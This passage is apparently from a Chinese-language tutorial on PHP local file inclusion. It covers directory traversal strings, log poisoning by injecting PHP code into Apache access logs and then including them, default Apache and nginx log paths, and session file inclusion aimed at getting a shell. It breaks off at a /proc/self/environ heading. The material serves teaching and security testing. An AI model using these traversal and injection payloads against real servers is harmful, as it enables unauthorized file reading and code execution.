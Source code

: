 ```html
?file=./../../test.txt
./ 当前目录   ../ 上一级目录
```

#### 包含日志

```
利用条件： 需要知道服务器日志的存储路径，且日志文件可读。

很多时候，web服务器会将请求写入到日志文件中，比如说apache。在用户发起请求时，会将请求写入access.log，当发生错误时将错误写入error.log。默认情况下，日志保存路径在 /var/log/apache2/。

构造url为：`http://xxxx/<?php phpinfo();?>`，请求

之后包含日志文件 `include(‘/var/log/apache2/access.log’)`，

从而成功执行php代码 `?file=../../../../../../../../../var/log/apache/error.log`
```

##### 常用日志默认路径

###### apache+Linux日志默认路径

```
/etc/httpd/logs/access_log  
/var/log/httpd/access log
```

###### nginx日志文件

```php
nginx 日志文件在用户安装目录的logs目录下
如安装目录为/usr/local/nginx,则日志目录就是在/usr/local/nginx/logs
也可通过其配置文件Nginx.conf，获取到日志的存在路径（/opt/nginx/logs/access.log）
```

#### 包含session

```
利用条件：session文件路径已知，且其中内容部分可控。

PHP默认生成的Session文件往往存放在/tmp目录下
/tmp/sess_SESSIONID

/var/lib/php/session/sess_SESSIONID

?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7

（session文件一般在/tmp目录下，格式为sess_[your phpsessid value]，有时候也有可能在/var/lib/php5之类的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制session的值，也许你能够获得一个shell）
```

#### 包含/proc/self/environ文件

利用条件：
